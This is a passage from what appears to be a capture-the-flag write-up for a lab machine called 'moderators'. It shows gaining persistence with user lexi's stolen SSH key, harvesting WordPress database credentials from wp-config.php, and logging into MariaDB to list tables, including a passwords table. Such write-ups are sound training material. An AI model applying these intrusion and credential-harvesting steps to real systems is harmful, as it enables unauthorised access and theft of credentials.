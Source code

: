Double check that `lexi`'s id_rsa can be used for persistence before closing all reverse connections.
```
➜  moderators vim lexi-id_rsa 
➜  moderators chmod 400 lexi-id_rsa
➜  moderators ssh lexi@moderators.htb -i lexi-id_rsa
lexi@moderators:~$
```

------------------

# ROOT
### Step 1
We are now able to read `wp-config.php`:
```
lexi@moderators:/opt/site.new$ cat wp-config.php
[... snip ...]
/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpresspassword123!!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Look if there are any users in the SQL Database:
```bash
lexi@moderators:/opt/site.new$ mysql -u wordpressuser -p
Enter password: wordpresspassword123!!
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 40
Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_options                 |
| wp_pms_category            |
| wp_pms_passwords           |
| wp_postmeta                |
| wp_posts                   |
| wp_prflxtrflds_fields_meta |
| wp_term_relationships      |
```